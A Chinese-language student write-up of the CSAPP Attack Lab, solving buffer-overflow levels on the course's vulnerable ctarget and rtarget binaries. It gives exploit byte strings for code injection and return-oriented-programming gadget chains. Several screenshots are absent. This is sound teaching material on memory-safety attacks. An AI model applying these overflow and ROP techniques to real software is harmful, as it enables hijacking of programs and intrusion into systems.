

# Attack Lab

同之前实验一样，首先要干的事情还是阅读`README`和`writeup`文件。

阅读`README`文件可知：

> Students are given binaries called ctarget and rtarget that have a buffer overflow bug.  They are asked to alter the behavior of their targets via five increasingly difficult exploits. The three attacks on ctarget use code injection. The two attacks on rtarget use return-oriented programming.


> Each exploit involves reading a sequence of bytes from standard input into a buffer stored on the stack. Students encode each exploit string as a sequence of hex digit pairs separated by whitespace, where each hex digit pair represents a byte in the exploit string. The program
"hex2raw" converts these strings into a sequence of raw bytes, which can then be fed to the target:

> unix> cat exploit.txt | ./hex2raw | ./ctarget

简单来说，就是需要自己创建一个`exploit.txt`文件，通过实验提供的`hex2raw`程序将其翻译成字节流后送给`ctarget`程序作为参数执行。


而`exploit.txt`文件需要实现《CSAPP》原书中提到的代码注入和面向返回的编程(return-oriented programming)。

且`README`文件最后提到:

> Students will need to run ctarget and rtarget using the -q option, which tells the targets not to try to contact the (non-existent) grading server.

经过尝试:


需要加上`-q`选项来阻止程序连接CMU的服务器以正常运行，下面正式进入该实验。

## Part 1


### Level 1

`ctarget`程序运行中会调用函数`<test>`:

```c
void test(){
	int val;
	val = getbuf();
	printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
而在`<test>`中会调用函数`<getbuf>`:

```c
unsigned getbuf() {
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}
```

Level 1的任务比较简单，即要求在函数`<getbuf>`执行返回语句时，将程序的执行流重定向到函数`<touch1>`:

```c
void touch1() {
	vlevel = 1; /* Part of validation protocol */
	printf("Touch1!: You called touch1()\n");
	validate(1);
	exit(0);
}
```

依据`Bomb Lab`的经验，首先对程序进行反汇编查看一下汇编代码:
```bash
objdump -d ctarget > outdump.s
```
找到`<test>`所在位置:


该函数首先将栈指针减8，随后调用了`<getbuf>`函数。(注意：调用函数之前会将返回地址压栈)


`<getbuf>`首先将栈指针减0x28也就是40字节后，
```x86-asm
mov %rsp, %rdi
```
这条指令含义是将`%rdi`赋值为`%rsp`，所以我们可以知道，下面调用的函数传递参数是使用栈来传递的，所以当参数长度超过了分配栈空间长度时，就会导致栈溢出。

随后调用了`<Gets>`函数。

此时画出栈的情况示意图:


从`<getbuf>`最后两行可以得知，当从`<getbuf>`返回退栈时，40字节的内容会被清空，并弹出栈顶数据到`%rip`寄存器中，此时程序转移控制流。

所以此时只需要将返回的数据设置为函数`<touch1>`的起始地址即可，查看`<touch1>`的起始地址:


所以需要填写的字节编码可以为(前40字节任意):

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

输入运行:


### Level 2

Level 2的要求同 Level 1一样，要将返回`<test>`时的控制流转换到调用`<touch2>`函数的执行上，同时要求执行时传入一个参数为`cookie`(在实验文件夹的`cookie.txt`文件中)。

并且调用`<touch2>`不能使用`jmp、 call`指令，只能使用`ret`指令。

```c
void touch2(unsigned val){
	vlevel = 2; /* Part of validation protocol */ 
	if (val == cookie) {
	printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2); 
	}
	else{
    printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2); 
	}
	exit(0);
}
```

回顾《CSAPP》原书中提到的`ret`指令，其等价为:
```x86-asm
pop %rip
```
即将栈顶数据弹栈到`%rip`寄存器中，同时栈顶指针上移(假设栈由高地址向低地址生长，低地址在底端)。


我们可以试想，同Level 1一样，在`<test>`的栈帧的返回地址处存放`<touch2>`的地址，从而在`<getbuf>`退栈时能调用`<touch2>`，但是有一个问题，我们需要预先传递我们的`cookie`参数到`%rdi`寄存器中，如果采用这种方式，参数就会无法传递。

经过观察可以发现，`<getbuf>`函数开辟的40字节的栈帧，这部分空间在退栈时直接被清空，不会再进行使用，所以，我们可以考虑在这个部分放置我们的传递参数的代码，假设这部分标记为`<ta>`，那么我们可以进行如下考虑：

首先`<getbuf>`退栈时转移控制流到`<ta>`部分，在此部分进行参数传递的工作，然后将`<touch2>`函数的入口地址压栈再弹栈(使用`ret`指令)，这样程序的控制流就正常转移到了`<touch2>`上并且也完成了参数传递。


此时查看栈顶指针`%rsp = 0x5561dc78`，画出栈的存储情况示意图：


所以，我们可以在所示的栈帧区域内填入我们的处理代码，在`<test>`返回地址处填入我们的处理代码的地址，处理代码如下所示:

```x86asm
# 传递cookie到rdi寄存器
mov $0x59b997fa, %rdi
# 栈顶压入touch2起始地址，再退栈
# 此时touch2执行地址被送入rip寄存器
pushq $0x4017ec
retq
```

将我们的指令序列转换为字节编码:


> unix> gcc -c example.s
> unix> objdump -d example.o > example.d


获得的字节表示为:


根据小端地址的顺序，所以我们最终填入字节编码为:

```bash
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

测试：


### Level 3

Level 3中给出了两段C代码:

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

```c
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

要求同Level 2大致相同，在返回`<test>`时，要求进入`<touch3>`，并将cookie作为参数传入。但是此处略有不同，仔细观察可知，`<touch2>`要求传入的参数是cookie的值，而此时`<touch3>`中的参数是一个`char`类型的指针。

再细读一下`<hexmatch>`函数进一步验证了我们考虑：`sval`是一个`char`类型的指针，其中存储的是一个字符串的地址。所以，在这个函数中，我们实际要传入`%rdi`寄存器的是，我们准备存储的cookie的地址。

这个时候问题产生了，我们要将cookie存储到何处？

阅读`writeup`，里面有这样一段话:

> When functions `hexmatch` and `strncmp` are called, they push data onto the stack, overwriting portions of memory that held the buffer used by `getbuf`. As a result, you will need to be careful where you place the string representation of your cookie.

所以我们大致可以知道，我们也许能够仔细地观察这几个函数的调用结构，将cookie存储到`getbuf`的栈帧上，只要保证`hexmatch`以及`strncmp`调用时不会影响到cookie即可。

但是经过实验，将cookie放在计算后的`<getbuf>`栈帧地址中依然会报错:


可以看到虽然调用了`touch3`，但是cookie字符串并没有正确传入。

所以最好的办法，还是将cookie放在`test`的栈帧里：


所以最终输入的答案为：

```x86asm
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```
输入测试:


Part 1到此结束。


## Part 2

首先还是阅读`writeup`：

Part 2所要进行的攻击对象是`rtarget`，但是相比于Part 1却困难许多，主要是`rtarget`采用了两种技术来防止攻击:

- 栈随机化:每一次程序运行时栈的地址都不相同，所以我们没办法像Part 1 - Level 2一样。回顾Level 2，我们输入的字节序列的最后一行是
```
78 dc 61 55 00 00 00 00
```
这行注入到栈中，其实就是指明了我们的攻击代码的存储地址。而如果在栈随机化的程序里依然使用这样的方式，我们就不能保证我们的攻击代码一定存储在这个地址`0x5561dc78`上；

- 限制可执行代码的内存区域:就算攻击者确定他的攻击代码到底在栈上的哪个位置，但是由于限制了可执行代码的内存区域，最终执行到攻击代码时也会出现`segmentation fault`。

这就要求我们使用别的方法来尝试攻击，此处便引出了`return-oriented programming`的概念，具体内容在`writeup`上有详细说明，此处就不再赘述。


### Level 2

对于Level 2，要求实现与Part 1的Level 2相同操作。

- 首先要完成的事情还是向`%rdi`寄存器中传入cookie，但是此处就不能直接编写汇编语句：
```x86asm
mov $0x... %rdi
```
而是应该去寻找已有的`gadget`来完成这样的功能。从`writeup`中可知，有两条指令可以实现这样的功能:
```x86asm
popq %rax
mov %rax, %rdi
```
所以我们可以首先将cookie利用缓冲区溢出的方式写入到栈顶，然后找到有上述功能的`gadget`，就可以完成传值的功能；
- 调用`touch2`也是同理，每一个`gadget`的末尾都是一个`retq`指令，那么只要在栈顶放好`touch2`的地址，在上一个`gadget`结束之后，经过`retq`就会转入`touch2`进行执行。

执行时栈情况示意图如下:


所以，我们现在要去寻找哪儿能有这样的`gadget`，首先还是先获得`rtarget`的反汇编代码:

```
objdump -d rtarget > outr.s
```

然后回到`writeup`查找:(同时要保证执行完这每条指令后跟的都是`retq`指令，其字节编码为`0xc3`，且在`retq`前可以插入若干`nop`指令，其字节编码为`0x90`)
```
popq %rax       --- 58
movq %rax, %rdi --- 48 89 c7
```


所以我们可以写出如下字节编码表示，注意小端顺序:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
运行测试:



### Level 3

Level 3的要求同Part 1的Level 3要求一样，传入cookie的地址作为参数，然后最后调用`touch3`函数。

这一过程的问题在于，我们在Part 1的Level 3中，栈帧生成的地址是固定的，所以我们可以直接在栈中压入cookie的地址。但是由于栈随机化，在这一部分，我们就没办法这样操作了。

所以我的思路是，首先利用第一个`gadget`将当前的栈指针的值保存下来，然后通过后面的几个`gadget`确定最后的偏移量，最后通过保存的栈指针运算得出cookie的地址。

要进行运算必须要有相关的指令，此时便到`farm.c`中寻找可以使用的指令。一番浏览过后，可以发现基本上`farm.c`中所有的函数中包含的指令都只有赋值类:


唯独有一个函数涉及到了运算:


所以答案已经明了，我们需要利用的就是`%rdi, %rsi, %rax`三个寄存器，最后将`%rax`寄存器的值送入`%rdi`即可。


但是当我去寻找对应的`gadget`时问题出现了，在给定的`<farm>`函数里，没有能够`gadget`能完成:

```x86asm
popq %rsi
```

也就是说，只能寻找别的`gadget`完成`popq`指令，将栈顶值弹出到别的寄存器里，然后再通过寄存器间的传值将值传入`%rsi`。经过一番尝试后，设计流程如下:


写好对应的字节编码进行试验:


Attack Lab完成。


> 栈帧示意图来自于[知乎用户](https://www.zhihu.com/people/deconx)